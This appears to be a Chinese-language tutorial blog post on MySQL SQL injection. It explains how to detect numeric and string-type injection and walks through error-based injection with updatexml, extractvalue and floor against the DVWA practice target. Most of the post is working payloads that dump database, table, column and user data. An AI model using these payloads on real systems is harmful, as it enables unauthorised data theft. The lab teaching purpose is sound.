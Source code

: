 ```yaml
---
title: "SQL注入篇"
date: 2025-04-19T17:30:00+08:00
draft: false
author: "Hinoatari"
---
```


# SQL 注入篇

## SQL 注入常用函数

```markdown
1.联合注入函数:
concat()、concat_ws()、group_concat() 
2.布尔盲注函数:
length()、left()、right()、substr()、mid()、ascii()、ord() 
3.时间盲注函数:
sleep()、if() 
4.报错注入函数:
floor()、exp()、updatexml()、extractvalue()
```

## (一)注入类型

SQL 注入通常分为两种类型：数字型和字符型

### (1)注入类型为数字型时，SQL 查询语句通常为：

` select * from users where id = x`

判断方法：

```sql
1. ?id = 1 and 1 = 1 --+ 若无报错，继续下一步
2. ?id = 1 and 1 = 2 --+ 若报错， 则注入类型为数字型
```

### (2)注入类型为字符型时，SQL 查询语句通常为：

`select * from users where id = '1'`

判断方法：

```sql
1. ?id = 1' and '1' = '1 --+ 若无报错，继续下一步
2. ?id = 1' and '1' = '2 --+ 若报错， 则注入类型为字符型
```

## (二)报错注入

### 一、SQL 报错注入常用函数：

**updatexml（）**、**extractvalue（）**、**floor（）**

**(1) updatexml（）函数**

- updatexml（）使用不同的 xml 标记匹配和替换 xml 块，用于改变文档中符合条件的节点的值

- 基本语法：`UPDATEXML(xml_target, xpath_expr, new_val)`，`xml_target`是要修改的 XML 类型的数据，`xpath_expr`是一个 XPath 表达式，用于指定要修改的节点位置，`new_val`是一个新的节点值，用于替换当前节点的值

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (updatexml(1,0x7e,3));`0x7e 是字符~，不属于 xpath 语法格式，因此会出现 xpath 语法错误

**(2) extractvalue（）函数**

- extractvalue（）用于从 XML 文档中提取信息

- 基本语法：`ExtractValue(XML_fragment, XPath_string)`，其中`XML_fragment`是 XML 格式的字符串，`XPath_string`是用于定位 XML 文段中特定数据的 XPath 表达式

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (extractvalue(1,0x7e));`

**(3) floor（）函数**

- floor（）利用`select count(*),(floor(rand(0)*2)) as x from 表名 group by x;`导致数据库报错，通过 concat 函数连接注入语句与 floor(rand(0)\*2)函数，实现将注入结果与报错信息回显
- count(\*) 是一个聚合函数，用来计算表中所有行的数量，floor(rand(0)\*2)产生的固定序列为：**01101**，结合 group by 会产生一个虚拟表。
- 原理：rand 伪随机函数与**order by**或**group by**函数的冲突，例如 floor(rand(0)\*2)一开始计算得到了 0，group by 根据 0 分类统计，在写入要返回的虚表时 floor(rand(0)\*2)还要计算一次结果，这次结果却是 1，导致了冲突。

### 二、updatexml 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and updatexml(1,concat(0x7e,database(),0x7e,user()),1)#`

输出结果： ![测试结果](images/sql注入篇/1.png)

2.爆当前数据库的表信息：`1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)#`

输出结果： ![测试结果](images/sql注入篇/2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'),0x7e),1)#`

输出结果： ![测试结果](images/sql注入篇/3.png)

4.爆数据库内容：`1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e),1)#`

输出结果： ![测试结果](images/sql注入篇/4.png)

### 三、extractvalue 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and extractvalue(1,concat(0x7e,database(),0x7e,user()))#`

输出结果： ![测试结果](images/sql注入篇/1.png)

2.爆当前数据库的表信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database())))#`

输出结果： ![测试结果](images/sql注入篇/2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users')))#`

输出结果： ![测试结果](images/sql注入篇/3.png)

4.爆数据库内容：`1' and extractvalue(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e))#`

输出结果： ![测试结果](images/sql注入篇/4.png)

### 四、floor 函数实战 (基于 dvwa 靶场)

1.判断是否存在报错注入：`1' union select count(*),floor(rand(0)*2) x from information_schema.tables group by x#`

输出结果： ![测试结果](images/sql注入篇/5.png)

确认存在报错注入

2.爆当前数据库名：`1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x #`

输出结果： ![测试结果](images/sql注入篇/6.png)

可以看到数据库名为 dvwa，1 是随机数

3.爆当前数据库表信息：`1' union select count(*),concat(floor(0)*2,0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](images/sql注入篇/7.png)

4.爆数据库表中字段信息：`1' union select count(*),concat(floor(rand(0)*2),0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](images/sql注入篇/8.png)

5.爆数据库内容：`1' union select count(*),concat(floor(rand(0)*2),(select group_concat(first_name,last_name) from dvwa.users)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](images/sql注入篇/9.png)
